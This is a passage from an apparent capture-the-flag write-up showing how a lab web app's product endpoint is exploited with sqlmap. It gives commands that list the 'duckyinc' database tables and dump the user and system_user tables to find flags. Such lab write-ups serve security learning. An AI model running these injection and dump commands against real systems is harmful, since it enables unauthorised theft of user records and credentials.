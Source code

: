 Great! `sqlmap` managed to identify 3 payloads that this end point is vulnerable to. It was also able to enumerate the databases on the server. The **duckyinc** database looks especially interesting!

Let's take a look at the tables within **duckyinc**:

```
sqlmap -u http://10.10.103.117/products/1 --level=5 --risk=3 --batch --threads=10 -D duckyinc --tables
```

<img style="float: left;" src="screenshots/screenshot9.png">

There are 3 tables within duckyinc: **system_user**, **user** and **product**

Let's dump out all of the data in the **user** table:

```
sqlmap -u http://10.10.103.117/products/1 --level=5 --risk=3 --batch --threads=10 -D duckyinc -T user --dump
```

<img style="float: left;" src="screenshots/screenshot13.png">

We can find **flag1** within one of the user entries!

---

### [ flag2 ]

Now let's dump out all of the data in the **system_user** table:

```
sqlmap -u http://10.10.103.117/products/1 --level=5 --risk=3 --batch --threads=10 -D duckyinc -T system_user --dump
```

<img style="float: left;" src="screenshots/screenshot10.png">
